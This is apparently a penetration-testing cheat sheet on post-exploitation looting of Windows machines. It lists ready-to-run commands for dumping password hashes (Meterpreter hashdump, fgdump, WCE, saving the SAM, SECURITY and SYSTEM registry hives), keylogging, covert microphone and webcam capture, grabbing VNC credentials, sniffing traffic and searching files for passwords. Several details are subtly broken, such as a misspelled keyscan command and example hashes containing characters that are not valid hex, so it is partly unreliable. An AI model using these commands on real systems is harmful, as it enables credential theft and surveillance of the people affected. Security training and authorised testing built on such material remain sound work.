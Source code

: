 # Loot Windows



### Meterpreter <a id="meterpreter"></a>

If you have a meterpreter shell you are able to do a lot of thing with very little effort.  
If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.

Show help of all commands:

```text
-h
```

**Dump windows hashes for further analysis**

```text
hashdump
```

Keylogger

```text
keysscan_start
keyscan_dump
keyscan_stop
```

**Mic and webcam commands**

```text
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```

### Dumping passwords and hashes on windows <a id="dumping-passwords-and-hashes-on-windows"></a>

This most likely requires administrative rights, that's why the chapter is found here and not in priv-esc. Once you have a hash you can move on to the Password Cracking-chapter where we discuss different techniques of cracking hashes.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until \(and including\) Windows 2003 stored the passwords in LAN Manager \(LM\) and NT LAN Manager \(NTLM\). LM is incredibly insecure. From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM &gt;= Windows 2003**

**NTLM &gt; Windows vista**

#### LM Hashes <a id="lm-hashes"></a>

LM hashes can be really easy to crack. The LM part in the example below is the first part.

```text
Administrator:500:FA21A6D3CF(01B8BAAD3B435B51404EE:C294D192B82B6AA35C3DFCA81F1F59BC:::
```

Example of NT

```text
Administrator:500:NO PASSWORD*********************:BE134K40129560B46534340292AF4E72:::
```

#### fgdump.exe <a id="fgdumpexe"></a>

We can use `fgdump.exe` \(`locate fgdump.exe` on kali\) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it.

#### Windows Credencial Editor \(WCE\) <a id="windows-credencial-editor-wce"></a>

WCE can steal NTLM passwords from memory in cleartext!  
There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this

```text
wce32.exe -w
```

#### Loot registry without tools <a id="loot-registry-without-tools"></a>

This might be a better technique than using tools like wce and fgdump, since you don't have to upload any binaries.  
Get the registry:

```text
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`

#### Pwdump 7 <a id="pwdump-7"></a>

[http://www.tarasco.org/security/pwdump\_7/](http://www.tarasco.org/security/pwdump_7/)

### VNC <a id="vnc"></a>

VNC require a specific password to log in to. So it is not the same password as the user password. If you have a meterpreter shell you can run the post exploit module to get the VNC password.

```text
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

### Tcp-dump on winfows <a id="tcp-dump-on-winfows"></a>

You can use meterpreter to easily take a tcp-dump, like this:

```text
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

#### Search for interesting files <a id="search-for-interesting-files"></a>

```text
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# Recursive search
dir /s
```

#### Search for \*More\* interesting files \(passwords\) <a id="search-for-more-interesting-files-passwords"></a>

 Just to clarify, I’m looking for text within the file, not in the file name.

The following prints out the relative file name/path and line number \(/n\) in a recursive \(/s\), case insensitive \(/i\) search for the string password \(password\) in all files \(\*\), ignoring files with non-printable characters \(/p\)

```text
#from c://
findstr /n /s /i /p password *
```


